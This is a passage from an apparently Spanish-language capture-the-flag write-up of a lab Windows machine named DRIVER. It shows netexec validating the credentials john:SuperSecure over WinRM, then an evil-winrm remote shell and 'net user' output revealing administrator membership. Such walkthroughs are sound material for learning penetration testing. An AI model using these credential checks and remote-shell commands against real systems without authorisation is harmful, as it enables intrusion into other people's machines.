 `Validamos` las `credenciales`

```
# netexec winrm 10.129.190.165 -u 'john' -p 'SuperSecure'         
WINRM       10.129.190.165  5985   DRIVER           [*] Windows 10 Build 10240 (name:DRIVER) (domain:DRIVER)
WINRM       10.129.190.165  5985   DRIVER           [+] DRIVER\john:SuperSecure (Pwn3d!)
```

Nos `conectamos` a la máquina víctima

```
# evil-winrm -i 10.129.190.165 -u 'john' -p 'SuperSecure'       
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\john\Documents> net user john
User name                    john
Full Name                    john
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            7/28/2024 6:22:05 PM
Password expires             Never
Password changeable          7/28/2024 6:22:05 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   7/28/2024 6:25:31 PM

Logon hours allowed          All

Local Group Memberships      *Administrators
Global Group memberships     *None
The command completed successfully.
```
